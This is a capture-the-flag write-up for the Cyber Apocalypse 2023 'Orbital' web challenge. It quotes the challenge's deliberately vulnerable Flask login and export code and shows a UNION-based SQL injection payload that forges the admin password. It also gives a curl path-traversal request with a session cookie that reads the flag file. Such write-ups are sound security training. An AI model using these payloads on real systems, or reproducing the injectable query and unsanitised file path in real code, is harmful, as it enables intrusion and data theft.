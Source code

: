 # Cyber Apocalypse 2023

## Orbital

> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
>
>  Readme Author: [D13David](https://github.com/D13David)
>
> [`web_orbital.zip`](web_orbital.zip)

Tags: _web_

## Solution
After browsing through the source code we can find the login code
```
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
The comment suggest sql injection is not possible here since password is tested explicitely later on. But this part is still weak, by logging in as

```
user: " AND 0=1 UNION SELECT username, md5("test123") AS password FROM users WHERE username = "admin" #-- -
pass: test123
```
We can hard set the password to whatever we want, here `test123`, and we are in.

On the site itself is not much to find, but browsing the code a bit more there is a interesting endpoint:

```
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

We can use this, with our current session id, to extract the flag. We only need to know where the flag is stored. In the Dockerfile this information can be found.
```
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

And we have the flag:
```
$ curl -X POST -H "Content-Type:application/json" -d '{"name":"../signal_sleuth_firmware"}' --cookie "session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOVGszTVRrMGZRLkRaLXhLS09YeENtZ1MtakhWajZmWkhYdGQyMDVpZmFNRVR3eEo5NVNfTDQifQ.ZBxKKg.SoU5o3fjH-Yj-A1EesEi6RQwDFA" http://167.71.143.44:32392/api/export
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```